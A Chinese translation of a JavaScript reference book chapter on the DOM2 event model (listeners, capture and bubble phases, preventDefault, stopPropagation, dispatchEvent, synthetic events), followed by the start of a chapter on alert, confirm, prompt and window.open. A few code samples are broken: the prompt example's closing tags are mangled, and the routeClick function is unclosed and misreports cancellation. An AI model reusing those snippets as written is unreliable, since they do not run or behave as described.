DOM2 事件模型规范（http://www.w3.org/TR/DOM-Level-2-Events/）描述了一种在树形结构（如 (X)HTML 文档的对象层级）中创建、捕获、处理和取消事件的标准方式。它还描述了事件传播行为，即事件如何到达目标以及之后会发生什么。

DOM2 的事件处理方式兼容基本事件模型，并融合了专有模型的重要概念。这本质上意味着基本事件模型在支持 DOM2 的浏览器中完全按预期工作。此外，你在 Netscape 4 和 Internet Explorer 中能做的一切在 DOM2 浏览器中也能做到，只是语法不同。

专有模型的混合体现在事件在支持 DOM2 的浏览器中的传播方式上。事件在其生命周期的开始位于层级结构的顶部（Document），然后通过包含对象向下传播到目标。这被称为**捕获阶段**，因为它模拟了 Netscape 4 的行为。在下行过程中，事件可以被任何中间对象预处理、处理或重定向。一旦事件到达目标并执行了那里的处理程序，事件就会沿层级结构向上返回到顶部。这被称为**冒泡阶段**，因为它与 Internet Explorer 4+ 的模型有明显的联系。

基于 Mozilla 的浏览器是最早实现 DOM2 事件标准的主要浏览器。这些浏览器包括 Mozilla 本身、Netscape 6+、Firefox、Camino 等。Opera 7 几乎完全支持，Safari（一款流行的 MacOS 浏览器）也是如此。事实上，大多数浏览器（微软的除外）都支持或即将支持 DOM2 事件。这是理所当然的；接口的统一正是我们制定标准的初衷。

美中不足的是，截至第 6 版，Internet Explorer 不支持 DOM2 事件。微软似乎没有在近期增加支持的计划，也不清楚他们在中期或长期是否有此计划。因此，不幸的是，Web 程序员在事件的跨浏览器脚本方面短期内不太可能摆脱这一困扰，并且应当警惕不要仅仅专注于 DOM2 事件规范。

##### 将处理程序绑定到对象

在 DOM Level 2 下，将事件处理程序绑定到元素的最简单方式是使用你现在应该已经熟悉的 (X)HTML 属性，如 **onclick**。以这种方式绑定事件时，对于支持 DOM2 的浏览器来说没有什么变化，只是仅保证支持 (X)HTML 标准中的事件（尽管某些浏览器支持更多事件）。

由于没有官方的 DOM2 方式让事件处理程序属性文本中的脚本访问 **Event** 对象，首选的绑定技术是使用 JavaScript。语法与基本事件模型相同：

```
<p id="myElement">Click on me</p>

<p>Not on me</p>

<script type="text/javascript">
<!--
function handleClick(e)
{
    alert("Got a click: " + e);
    // IE5&6 will show an undefined in alert since they are not DOM2
}
document.getElementById("myElement").onclick = handleClick;
// -->
</script>
```


##### DOM2 事件绑定方法

你也可以使用 DOM2 引入的新方法 **addEventListener()** 来为页面中的事件绑定处理程序。你可能会选择使用此函数而非直接设置对象的事件处理属性，原因有三。第一，它允许你为同一对象绑定多个同类型事件的处理程序。以这种方式绑定处理程序时，当指定事件发生时每个处理程序都会被调用，尽管它们被调用的顺序是不确定的。第二，使用 **addEventListener()** 的原因在于它允许你在捕获阶段处理事件（即事件"向下传递"到其目标节点时）。绑定到 **onclick** 和 **onsubmit** 等事件处理属性上的处理程序仅在冒泡阶段被调用。第三，此方法允许你将处理程序绑定到文本节点，这在 DOM2 之前是不可能实现的。

**addEventListener()** 方法的语法如下：

```
object.addEventListener("event", handler, capturePhase);
```

- *object* 是要绑定监听器的节点。
- "event" 是一个字符串，表示要监听的事件类型。
- *handler* 是事件发生时应调用的函数。
- *capturePhase* 是一个布尔值，指示处理程序应在捕获阶段（**true**）还是冒泡阶段（**false**）被调用。

例如，要将函数 *changeColor()* 注册为 **id** 为 *myText* 的段落的捕获阶段 **mouseover** 处理程序，你可以这样编写：

```
document.getElementById('myText').addEventListener("mouseover",
changeColor, true);
```

要添加冒泡阶段处理程序 *swapImage()*：

```
document.getElementById('myText').addEventListener("mouseover",
swapImage, false);
```

使用 **removeEventListener()** 移除处理程序时，需要传入与添加事件时相同的参数。因此，要移除上一个示例中的第一个处理程序（但保留第二个），你需要调用：

```
document.getElementById('myText').removeEventListener("mouseover",
changeColor, true);
```

本章后续我们将看到一些使用 **addEventListener()** 的具体示例。

##### 事件对象

如前所述，支持 DOM2 事件的浏览器会将一个 **Event** 对象作为参数传递给处理程序。此对象包含有关已发生事件的额外信息，实际上与专有模型中的 **Event** 对象非常相似。此对象的确切属性取决于所发生的事件，但所有 **Event** 对象都具有表 11-10 中列出的只读属性。

###### 表 11-10：所有事件对象的通用属性

| 只读属性 | 描述 |
|---|---|
| bubbles | 布尔值，指示事件是否冒泡 |
| cancelable | 布尔值，指示事件是否可取消 |
| currentTarget | 当前正在执行处理程序的节点（即处理程序所绑定的节点） |
| eventPhase | 数值，表示事件流的当前阶段（1 表示捕获阶段，2 表示目标阶段，3 表示冒泡阶段） |
| type | 字符串，表示事件的类型（例如 "click"） |
| target | 事件最初被分派到的节点（即事件发生的节点） |

**注意** *在检查 eventPhase 属性时，你可以使用符号常量 Event.CAPTURING_PHASE、Event.AT_TARGET 和 Event.BUBBLING_PHASE 来替代数值 1、2 和 3。*

我们将在接下来的章节中，随着讨论 DOM2 支持的浏览器允许你处理的各种事件类型，分别列出每种事件特有的属性。

##### 鼠标事件

DOM2 定义的鼠标事件即 (X)HTML 中的鼠标事件。它们列于表 11-11 中。由于在 DOM2 下，并非所有事件都包含冒泡阶段，且所有默认操作都可被取消，表 11-11 同时列出了每种事件的这些行为。

###### 表 11-11：DOM2 事件下支持的鼠标相关事件

| 事件 | 是否冒泡？ | 是否可取消？ |
|---|---|---|
| click | 是 | 是 |
| mousedown | 是 | 是 |
| mouseup | 是 | 是 |
| mouseover | 是 | 是 |
| mousemove | 是 | 否 |
| mouseout | 是 | 是 |

当鼠标事件发生时，浏览器会用表 11-12 所示的额外信息填充 Event 对象。

###### 表 11-12：鼠标相关事件的 Event 对象的附加属性

| 属性 | 描述 |
|---|---|
| altKey | 布尔值，指示是否按下了 ALT 键 |
| button | 数值，指示使用了哪个鼠标按钮（通常 0 表示左键，1 表示中键，2 表示右键） |
| clientX | 事件相对于浏览器内容区域的水平坐标 |
| clientY | 事件相对于浏览器内容区域的垂直坐标 |
| ctrlKey | 布尔值，指示事件期间是否按下了 CTRL 键 |
| detail | 指示鼠标按钮被点击的次数（如果有） |
| metaKey | 布尔值，指示事件期间是否按下了 META 键 |
| relatedTarget | 与事件相关的节点引用——例如，对于 mouseover 事件，它引用鼠标正在离开的节点；对于 mouseout 事件，它引用鼠标正在移向的节点 |
| screenX | 事件相对于整个屏幕的水平坐标 |
| screenY | 事件相对于整个屏幕的垂直坐标 |
| shiftKey | 布尔值，指示事件期间是否按下了 SHIFT 键 |

以下示例展示了它们的用法：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>DOM2 Mouse Events</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<h2>DOM2 Mouse Events</h2>

<form id="mouseform" name="mouseform" action="#" method="get">

Alt Key down?

<input id="altkey" type="text" /><br />

Control Key down?

<input id="controlkey" type="text" /><br />

Meta Key down?

<input id="metakey" type="text" /><br />

Shift Key down?

<input id="shiftkey" type="text" /><br />

Browser coordinates of click: <input id="clientx" type="text" />,
                      <input id="clienty" type="text" /> <br />
Screen coordinates of click: <input id="screenx" type="text" />,
    <input id="screeny" type="text" /> <br />
Button used: <input id="buttonused" type="text" /><br /><br />
</form>
<hr />
Click anywhere on the document...
<script type="text/javascript">
<!--
function showMouseDetails(event)
{
    var theForm = document.mouseform;

    theForm.altkey.value = event.altKey;
    theForm.controlkey.value = event.ctrlKey;
    theForm.shiftkey.value = event.shiftKey;
    theForm.metakey.value = event.metaKey;
    theForm.clientx.value = event.clientX;
    theForm.clienty.value = event.clientY;
    theForm.screenx.value = event.screenX;
    theForm.screeny.value = event.screenY;
    if (event.button == 0)
        theForm.buttonused.value = "left";
    else if (event.button == 1)
        theForm.buttonused.value = "middle";
    else
        theForm.buttonused.value = "right";
}
document.addEventListener("click", showMouseDetails, true);
//-->
</script>

</body>

</html>
```

点击后的结果如图 11-3 所示。


##### 键盘事件

令人惊讶的是，DOM Level 2 并未定义键盘事件。它们将在未来的标准中被指定，你可以从 DOM Level 3 中看到其雏形。幸运的是，由于 (X)HTML 允许许多元素使用 **keyup**、**keydown** 和 **keypress** 事件，你会发现浏览器对它们都有支持。此外，在 IE 占主导地位的情况下，你仍然可以回退到该事件模型。表 11-13 列出了符合 DOM2 标准的浏览器支持的键盘相关事件及其行为。

###### 表 11-13：大多数浏览器支持的键盘事件

| 事件 | 是否冒泡？ | 是否可取消？ |
|---|---|---|
| **keyup** | 是 | 是 |

| 事件 | 是否冒泡？ | 是否可取消？ |
|-------|----------|------------|
| keydown | 是 | 是 |
| keypress | 是 | 是 |

**Event** 对象的 Mozilla 特定键盘相关属性列于表 11-14。

| 属性 | 描述 |
|----------|-------------|
| altKey | 布尔值，指示 ALT 键是否被按下 |
| charCode | 对于可打印字符，指示被按下的键的 Unicode 值的数值 |
| ctrlKey | 布尔值，指示事件期间 CTRL 键是否被按下 |
| isChar | 布尔值，指示按键事件是否产生了字符（这很有用，因为某些按键组合，如 CTRL-ALT，不会产生字符） |
| keyCode | 对于非可打印字符，指示被按下的键的 Unicode 值的数值 |
| metaKey | 布尔值，指示事件期间 META 键是否被按下 |
| shiftKey | 布尔值，指示事件期间 SHIFT 键是否被按下 |

##### 浏览器事件

DOM2 浏览器支持所有主要浏览器中常见的浏览器和表单相关事件。这些事件的列表见表 11-15。

| 事件 | 是否冒泡？ | 是否可取消？ |
|-------|----------|------------|
| load | 否 | 否 |
| unload | 否 | 否 |
| abort | 是 | 否 |
| error | 是 | 否 |
| select | 是 | 否 |
| change | 是 | 否 |
| submit | 是 | 是 |
| reset | 是 | 否 |
| focus | 否 | 否 |
| blur | 否 | 否 |
| resize | 是 | 否 |
| scroll | 是 | 否 |

##### UI 事件

虽然 DOM Level 2 主要建立在 (X)HTML 规范（和 DOM Level 0）中已有的事件之上，但它增加了一些新的用户界面（UI）事件以完善功能。这些事件以 "DOM" 为前缀，以区别于"普通"事件。这些事件列于表 11-16。

###### 表 11-16：UI 相关的 DOM2 事件及其行为

| 事件 | 是否冒泡？ | 是否可取消？ |
|---|---|---|
| DOMFocusIn | 是 | 否 |
| DOMFocusOut | 是 | 否 |
| DOMActivate | 是 | 是 |

这些事件的必要性和含义并非一目了然。**DOMFocusIn** 和 **DOMFocusOut** 与传统的 **focus** 和 **blur** 事件非常相似，但可以应用于任何元素，而不仅仅是表单字段。**DOMActivate** 事件在对象接收到来自用户的活动时触发。例如，当链接被点击时触发，当用户激活下拉菜单时在 select 菜单上触发。当你不关心用户如何调用元素的功能，只关心它被使用时，此事件非常有用。例如，你可以注册接收 **DOMActivate** 事件，而不是同时使用 **onclick** 和 **onkeypress** 处理程序来捕获链接激活（通过鼠标或键盘）。虽然这些新事件很少使用，但了解它们会很有帮助，以防在新的脚本中遇到。

##### 变更事件

由于 DOM 兼容浏览器支持动态修改文档对象层次结构的能力，DOM2 包含了用于检测文档结构和逻辑变化的事件。这些事件被称为 *变更事件*，因为它们发生在文档层次结构变化时，此处仅简要提及。要有效使用它们，需要详细描述变更事件接口，并且在本版本撰写时，实际上没有任何主要浏览器支持它们。这些事件列于表 11-17。有关变更事件的完整细节，请参阅 W3C DOM2 事件规范 http://www.w3.org/TR/DOM-Level-2-Events/。

###### 表 11-17：文档变更事件

| 事件 | 是否冒泡？ | 是否可取消？ | 描述 |
|---|---|---|---|
| DOMSubtreeModified | 是 | 否 | 依赖于实现；当节点的子树的一部分被修改时触发 |
| DOMNodeInserted | 是 | 否 | 在作为另一个节点的子节点插入的节点上触发 |
| DOMNodeRemoved | 是 | 否 | 在已从其父节点移除的节点上触发 |
| DOMNodeRemovedFromDocument | 否 | 否 | 在节点即将从文档中移除时触发 |
| DOMNodeInsertedIntoDocument | 否 | 否 | 在节点已被插入文档时触发 |
| DOMAttrModified | 是 | 否 | 在节点的一个属性被修改时触发 |
| DOMCharacterDataModified | 是 | 否 | 在节点包含的数据被修改时触发 |

##### 防止默认操作

与更传统的模型一样，DOM Level 2 允许你通过在处理程序中返回 **false** 来取消与事件关联的默认操作。它还提供了 **Event** 对象的 **preventDefault()** 方法。如果在 **Event** 生命周期的任何时候，处理程序调用了 **preventDefault()**，则该事件的默认操作将被取消。这一点很重要：如果曾经在某个事件上调用了 **preventDefault()**，那么它的默认操作*将*被取消；即使其他处理程序返回 **true** 也无法导致默认操作继续执行。

以下简单示例阻止了文档中任何位置的点击产生预期效果。

```
尝试点击 <a href="http://www.javascriptref.com">这个链接</a>。
```

```html
<script type="text/javascript">
<!--
// 仅支持 DOM 2 浏览器，不支持 IE6
function killClicks(event)
{
    event.preventDefault();
}
document.addEventListener("click", killClicks, true);
// -->
</script>
```

重要的是要记住，取消事件的默认操作*并不会*阻止事件继续其在文档对象层次结构中的传播。考虑以下脚本，与上一个示例类似，只是这次为链接定义了 **onclick** 处理程序：
尝试点击 <a id="mylink" href="http://www.javascriptref.com">这个链接</a>。

```html
<script type="text/javascript">
<!--
// 仅支持 DOM 2 浏览器，不支持 IE6
function killClicks(event)
{
    event.preventDefault();
}
document.addEventListener("click", killClicks, true);
document.getElementById("mylink").onclick = function() {
    alert("A click event got through to the link node");
}
//-->
</script>
```

当链接被点击时，其默认操作被 *killClick()* 取消，但正如你在图 11-4 中看到的，**click** 事件仍然到达了链接节点。这说明了事件在文档对象层次结构中的传播与事件的默认操作是否被取消是相互独立的。


**图 11-4：** 取消默认行为与阻止传播不同。

##### 事件传播与路由

正如本节开头提到的，在支持 DOM2 的浏览器中，事件从 **Document** 开始，沿着包含层次结构“向下”传播到其目标（对应于事件发生元素的对象）。在此阶段，任何注册了以捕获阶段接收事件的事件处理程序的中间对象都将被调用。当事件到达其目标，并且目标上的任何处理程序有机会运行后，事件将沿层次结构“向上”返回到其开始的地方，即 **Document**。在此阶段，任何注册了以冒泡阶段接收事件的事件处理程序的中间对象都将被调用，包括使用 (X)HTML 属性绑定的任何处理程序。

在捕获和冒泡阶段监听事件可能比较棘手，因为 DOM 中节点的父子关系。只有当事件针对的是监听器所附加节点的子树中的节点时，才会为该事件调用处理程序。由于页面不同部分的包含关系经常变化，许多程序员发现在他们知道的、将包含感兴趣对象的主要对象（例如 **Document** 或 **Form** 级别）捕获事件更为方便。

##### 阻止传播

如果在 **Event** 生命周期的任何时候，处理程序调用了其 **stopPropagation**() 方法，那么该事件将停止其在文档对象层次结构中的传播，并在所有绑定到当前对象的处理程序执行完毕后失效。也就是说，当调用 **stopPropagation**() 时，唯一会被进一步调用的处理程序是那些绑定到当前对象的处理程序。

如果我们之前的例子中添加了对 **stopPropagation**() 的调用，就可以阻止链接的 **onclick** 处理程序执行：

```html
尝试点击 <a id="mylink" href="http://www.javascriptref.com">
这个链接</a>。

<script type="text/javascript">
<!--
// 仅支持 DOM 2 浏览器，不支持 IE6
function killClicks(event)
{
    event.preventDefault();
    event.stopPropagation();
}
document.addEventListener("click", killClicks, true);
document.getElementById("mylink").onclick = function() {
    alert("A click event got through to the link node");
}
//-->
</script>
```

*killClick* 处理程序作为监听器注册在捕获阶段，因此它在事件向下传播到链接的途中执行。它阻止点击执行通常的操作，然后通过调用 **stopPropagation**() 表示不应再对该事件进行进一步处理。

> **注意：** *请记住，并非 DOM2 下的所有事件都是可取消的，对这些事件调用 **preventDefault**() 不会生效。*

##### 重定向事件

每个节点都有一个 **dispatchEvent**() 方法，可以调用它将事件重定向到该节点。此方法接受一个 **Event** 作为参数，如果任何处理该事件的处理程序调用了 **preventDefault**() 或返回 **false**，则返回 **false**。例如，假设你想要将事件路由到一个 **id** 为 "eventprocessor" 的元素。你可能会使用

```javascript
function routeClick(event)
{
    var rv = document.getElementById("eventprocessor").dispatchEvent(event);
    if (rv)
        alert("Event processor canceled default behavior");
```


像这样的函数可以让你将事件处理函数绑定到一个实现集中式事件管理例程的单一对象上，这个对象不必包含它所管理事件的所有元素。

以这种方式重定向事件时，调用 **dispatchEvent()** 的节点成为新的事件目标。浏览器会假装事件实际上发生在那里。这意味着它会沿着正常流程从 **Document** 向下发送事件到这个新目标，然后再向上返回。因此，你需要小心避免因将事件路由到分发处理程序正在监听的目标而导致的无限循环。这样做会在 **Document** 和处理程序之间形成无尽的事件循环，并且可能迅速导致浏览器崩溃。

##### 事件创建

我们提到的最后一个 DOM 2 事件主题并不常被使用，浏览器的实现也不普遍，但仍然很有趣——事件创建。DOM2 事件规范允许用户使用 **document.createEvent()** 创建合成事件。你首先创建所需类型的事件，例如一个与 HTML 相关的事件：

```
evt = document.createEvent("HTMLEvents");
```

然后，一旦事件创建完成，你就可以传递与事件类型相关的各种属性。例如，这里我们传递事件类型 "click" 以及表示该事件可以冒泡和取消的布尔值：

```
evt.initEvent("click","true","true");
```

最后，我们在文档树中找到一个节点并将事件分发给它：

```
currentNode.dispatchEvent(evt);
```

然后事件被触发，并像任何其他事件一样做出响应。

以下示例展示了 DOM2 事件创建的实际应用，并允许你在树中移动并在各个位置触发点击事件。示例中添加了 **addEventListener()** 和 **removeEventListener()**，这样你不必在准备好之前就观察点击事件。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>DOM2 Event Creation</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<h2>DOM2 Event Creation</h2>
<form id="mouseform" name="mouseform" action="#" method="get">
Browser coordinates of click: <input id="clientx" type="text" />,
<input id="clienty" type="text" /><br />
</form>
<br /><hr /><br />
<script type="text/javascript">
<!--
// DOM 2 Only - no IE6 support

function showMouseDetails(event)
{
    document.mouseform.clientx.value = event.clientX;
    document.mouseform.clienty.value = event.clientY;
}

function makeEvent()
{
    evt = document.createEvent("HTMLEvents");
    evt.initEvent("click","true","true");
    currentNode.dispatchEvent(evt);
}

function startListen()
{
    document.addEventListener("click", showMouseDetails, true);
}

function stopListen()
{
    document.removeEventListener("click", showMouseDetails, true);
}

startListen();
//-->
</script>

<form action="#" method="get" id="myForm" name="myForm">

    Current Node: <input type="text" name="statusField" value="" />

        <br />

    <input type="button" value="parent" onclick="if
(currentNode.parentNode) currentNode = currentNode.parentNode;
document.myForm.statusField.value = currentNode.nodeName;" />


    <input type="button" value="First Child" onclick="if
(currentNode.firstChild) currentNode = currentNode.firstChild;
document.myForm.statusField.value = currentNode.nodeName;" />


    <input type="button" value="Next Sibling" onclick="if
(currentNode.nextSibling) currentNode = currentNode.nextSibling;
document.myForm.statusField.value = currentNode.nodeName;" />


    <input type="button" value="Previous Sibling" onclick="if
(currentNode.previousSibling) currentNode = currentNode.previousSibling;
document.myForm.statusField.value = currentNode.nodeName;" />
        <br /><br />

    <input type="button" value="Start Event Listener"
onclick="startListen();" />

        <input type="button" value="Stop Event Listener"
onclick="stopListen();" />

        <br /><br />

        <input type="button" value="Create Event" onclick="makeEvent();" />
</form>

<script type="text/javascript">
<!--
var currentNode = document.body;
document.myForm.statusField.value = currentNode.nodeName;
//-->
</script>
</body>
</html>
```

DOM2 事件创建有许多细节我们在此省略，主要是因为它在浏览器中的实现并不广泛。事实上，对于本节的大部分内容，我们都应该始终记住，由于 Internet Explorer 不支持 DOM2，它目前可能不是实现跨浏览器事件的最佳方案。我们现在简要回顾一下浏览器中事件支持的糟糕现状。

### 事件模型问题

表 11-18 总结了主要事件模型的主要特性。正如我们在本章中所看到的，如果你希望在 JavaScript 中做任何超出基本事件处理之外的事情，浏览器的事件情况就会变得一团糟。

| 主要特性 | 基本模型 | Netscape 4 模型 | Internet Explorer 4+ 模型 | DOM2 模型 |
| --- | --- | --- | --- | --- |
| 绑定处理程序... | (X)HTML 属性 | (X)HTML 属性、**captureEvents()** | (X)HTML 属性、**attachEvent()** | (X)HTML 属性、**addEventListener()** |
| 解除处理程序绑定... | 通过脚本将 (X)HTML 属性设为 **null** | 通过脚本将 (X)HTML 属性设为 **null**、**releaseEvents()** | 通过脚本将 (X)HTML 属性设为 **null**、**detachEvent()** | 通过脚本将 (X)HTML 属性设为 **null**、**removeEventListener()** |
| Event 对象... | 不适用 | 在属性文本中隐式作为 **event** 可用，作为参数传递给通过 JavaScript 绑定的处理程序 | 作为 **window.event** 可用 | 作为参数传递给处理程序 |
| 取消默认操作... | 返回 **false** | 返回 **false** | 返回 **false** | 返回 **false**、**preventDefault()** |
| 事件传播方式 | 不适用 | 从 **Window** 向下到目标 | 从目标向上到 **Document** | 从 **Document** 向下到目标，然后向上返回 **Document** |
| 停止传播... | 不适用 | 不适用 | 不适用 | **stopPropagation()** |
| 重定向事件... | 不适用 | **routeEvent()** | **fireEvent()** | **dispatchEvent()** |

选择使用哪种事件模式在很大程度上取决于你的客户可能使用的浏览器。在未来几年内，Internet Explorer 模型可能是使用最广泛的。随着最后一批 Netscape 4 用户转向基于 Mozilla 的浏览器，Netscape 4 模型正在迅速消亡，而 DOM2 模型虽然在越来越多的浏览器中可用，但不太可能在短期内取代 IE（如果能取代的话）。

考虑到这些事实，你可能需要编写跨浏览器的事件处理程序来完成你的任务。如果你将自己限制在标准事件和简单的应用范围内，这样做并不难。如果你需要完成非平凡的任务，那么在网上寻找一个跨浏览器的事件库，或者自己编写一个，可能是值得的。

### 总结

早期浏览器的基本事件模型（所有现代浏览器通用）使页面的部分内容能够动态响应用户操作。4.0 版本的浏览器实现了不同且不兼容的事件模型，以解决早期模型在灵活性和健壮性方面的问题。Netscape 4 从上到下将事件发送到目标，而 Internet Explorer 则从下到上冒泡事件。两种浏览器都向处理程序提供 **Event** 对象，尽管实现方式和对象本身的结构因浏览器而异。

基于 Mozilla 的浏览器是首批实现 DOM2 标准事件模型的主要浏览器。该模型建立在 DOM1 规范的基础上，提供了将事件绑定到文档层次结构中节点的方式。该模型中的事件首先沿层次结构向下移动，允许被事件监听器捕获。一旦事件到达目标并执行了其事件处理程序，它们就会沿层次结构向上冒泡，在每一层调用相应的处理程序。在 DOM2 中，可以使用恰如其名的 **stopPropagation()** 方法关闭事件传播，事件的默认行为可以通过返回 **false** 或使用 **preventDefault()** 方法来取消。

随着支持 DOM2 的浏览器不断涌现，除了传统的 JavaScript 模型之外，程序员现在还需要了解三种主要的事件模型（NS4、IE4+ 和 DOM2）来构建他们的应用程序。


## 第四部分：使用 JavaScript

## 章节列表

- 第 12 章：控制窗口和框架
- 第 13 章：处理文档
- 第 14 章：表单处理
- 第 15 章：动态效果：鼠标悬停、定位和动画
- 第 16 章：导航和网站访问改进
- 第 17 章：控制浏览器

## 第 12 章：控制窗口和框架

现在，是时候开始将本书迄今为止所涵盖的语法和理论付诸实践了。从对象层级顶部的 **Window** 对象开始，我们将学习如何创建各种类型的窗口，包括特殊对话框，如警告框、确认框、提示框、我们自己设计的自定义弹出窗口，以及各种特殊类型的窗口，包括模态窗口和全屏窗口。我们还将展示窗口和框架之间的密切关系。

### Window 简介

JavaScript 的 **Window** 对象代表浏览器窗口，或者更确切地说，是显示文档的框架。**Window** 特定实例的属性可能包括其大小、浏览器框架中的浏览器外壳元素（即按钮、滚动条等）的数量、位置等。**Window** 对象的方法包括创建和销毁通用窗口，以及处理特殊窗口，如警告、确认和提示对话框。此外，作为 JavaScript 对象层级中的顶层对象，该对象包含对几乎所有我们迄今为止已经介绍过或将在接下来几章中介绍的对象的引用。

#### 对话框

让我们通过介绍创建三种特殊窗口（统称为对话框）的应用，来开始讨论 **Window** 对象的应用。*对话框*（dialog box），或简称 *dialog*，是图形用户界面中弹出的小窗口，要求用户执行某些操作。JavaScript 直接支持三种基本类型的对话框：警告（alert）、确认（confirm）和提示（prompt）。这些对话框的原生实现方式有些基础，但在下一节中，我们将看到一旦我们能够创建自己的窗口，就可以用我们自己的窗口来替换这些窗口。

##### 警告框

**Window** 对象的 **alert()** 方法会创建一个特殊的小窗口，其中包含一个短字符串消息和一个"确定"按钮，如下所示：


> **注意** 警告框的典型渲染包含一个表示警告的图标，无论所呈现的消息含义如何。

**alert()** 的基本语法是：

`window.alert(string);`

或者简写为：

`alert(string);`

因为 **Window** 对象可以被假定存在。

传递给任何对话框（如警告框）的字符串可以是变量或表达式的结果。如果传递其他形式的数据，它将被强制转换为字符串。以下所有示例都是 **alert()** 方法的有效用法：

```
alert("Hi there from JavaScript! ");
alert("Hi "+username+" from Javascript");
var messageString = "Hi again!";
alert(messageString);
```

警告窗口是*页面模态*（page modal）的，这意味着它必须获得焦点并被清除，然后才允许用户继续与页面进行交互。

> **注意** 警告对话框的一个好用途是用于调试消息。如果你曾经怀疑脚本在哪里执行，或者当前变量设置为什么，而你不想使用调试器，可以使用警告框来显示有用的调试信息。

##### 确认框

window 对象的 **confirm()** 方法会创建一个窗口，显示一条消息，供用户通过点击"确定"按钮同意该消息或点击"取消"按钮不同意该消息来回应。典型的渲染如下所示。


确认问题的措辞可能会显著影响对话框的可用性。许多确认消息最好用"是"或"否"按钮来回答，而不是"确定"或"取消"，如右侧对话框所示。


遗憾的是，使用基本的 JavaScript 确认方法，无法改变按钮的文本。但是，可以编写我们自己的确认形式。

**confirm()** 方法的基本语法是：

```
window.confirm(string);
```

或者简写为：

```
confirm(string);
```

其中 *string* 是任何有效的字符串变量、字面量或表达式，最终会求值为用作确认问题的字符串值。

**confirm()** 方法返回一个布尔值，指示信息是否被确认：如果点击了"确定"按钮则返回 **true**，如果窗口被关闭或点击了"取消"按钮则返回 **false**。这个值可以保存到变量中，如下所示：

```
answer = confirm("Do you want to do this?");
```

或者方法调用本身可以用于任何使用布尔表达式的构造中，如 **if** 语句，如下所示：

```
if (confirm("Do you want ketchup on that?"))
  alert("Pour it on!");
else
   alert("Hold the ketchup.");
```

与 **alert()** 方法一样，确认对话框应该是浏览器模态的。

下一个示例展示了如何使用警告框和确认框。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>JavaScript Power!</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function destroy()
{
  if (confirm("Are you sure you want to destroy this page?"))
    alert("What you thought I'd actually let you do that!?");
  else
    alert("That was close!");
}
// -->
</script>
</head>
<body>
<div align="center">
<h1>The Mighty Power of JavaScript!</h1>
<hr />
<form action="#" method="get">
<input type="button" value="Destroy this Page" onclick="destroy();" />
</form>
</div>
</body>
</html>
```

##### 提示框

JavaScript 还支持 **Window** 对象的 **prompt()** 方法。提示窗口是一个小型数据收集对话框，提示用户输入一行简短的数据，如下所示：


**prompt()** 方法接受两个参数。第一个是显示提示值的字符串，第二个是放入提示窗口的默认值。该方法返回一个字符串值，其中包含用户在提示框中输入的值。基本语法如下所示：

```
resultvalue = window.prompt(prompt string, default value string);
```

几乎总是使用简写的 **prompt()** 而不是 **window.prompt()**，偶尔程序员只会在方法中使用单个值。

```
result = prompt("What is your favorite color?");
```

然而，在大多数浏览器中，你应该会看到 **undefined** 值被放置在提示行中。你应该将第二个参数设置为空字符串来防止这种情况发生。

```
result = prompt("What is your favorite color?","");
```

在使用 **prompt()** 方法时，理解返回的内容非常重要。如果用户点击对话框中的"取消"按钮或点击关闭框，将返回 **null** 值。始终建议对此进行检查。否则，将返回字符串值。如果程序员不想要字符串值，应该小心使用 **parseInt()** 或类似方法将提示值转换为适当的类型。

下一个示例展示了 **prompt()** 方法的实际应用。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Ask the JavaScript Guru 1.0</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
function askGuru()
{
  var question = prompt("What is your question o' seeker of knowledge?","")
  if (question != null)
  {
    if (question == "")
      alert("At least you could ask a question.");
    else
      alert("You thought I'd waste my time on your silly questions?");
  }
}
```


 ```html
//-->>
<script>
<head>
<body>
<div align="center">
<h1>JavaScript Guru 1.0<h1>
<hr />
<br />
<form action="" method="get">
<input type="button" value="Ask the Guru" onclick="askGuru();" />
<form>
<div>
<body>
<html>
```

这最后三个对话框的格式还有些许不足。我们会看到可以创建我们自己的对话框形式，而要做到这一点，我们首先要创建自己的窗口。

### 打开和关闭通用窗口

虽然 **alert()**、**confirm()** 和 **prompt()** 方法能快速创建专用窗口，但通常更希望打开任意窗口来显示网页或某些计算的结果。**Window** 对象的 **open()** 和 **close()** 方法分别用于创建和销毁窗口。

当你打开一个窗口时，可以设置其 URL、名称、大小、按钮和其他属性，例如窗口是否可以调整大小。该方法的基本语法是

```
window.open(url, name, features, replace)
```

其中

- *url* 是一个 URL，指示要加载到窗口中的文档。
- *name* 是窗口的名称（以后使用 HTML 链接的 **target** 属性引用时很有用）。
- *features* 是一个逗号分隔的字符串，列出窗口的特性。
- *replace* 是一个可选的布尔值（**true** 或 **false**），指示指定的 URL 是否应替换窗口的内容。这适用于已经创建的窗口。

此方法的一个示例是

```
secondwindow = open("http://www.yahoo.com", "yahoo", "height=300,width=200,

scrollbars=yes");
```

这将打开一个指向雅虎的窗口，高度为 300 像素，宽度为 200 像素，并带有滚动条，如下所示：


程序员创建窗口的方式有多种，但通常使用链接或按钮。例如：

```
<a href="#" onclick="javascript: secondwindow = open('http://www.yahoo.com',

'yahoo', 'height=300,width=200,scrollbars=yes');">Open Window</a>
```

```
<form action="#" method="get">

<input type="button" value="Open Window" onclick="secondwindow =

open('http://www.yahoo.com', 'yahoo', 'height=300,width=200,scrollbars=yes');" />

</form>
```

> **注意** *请小心，不要在浏览器中安装弹出窗口拦截器，因为它可能会破坏本章中的各种窗口创建示例。请记住，并非所有弹出窗口都是不好的。*

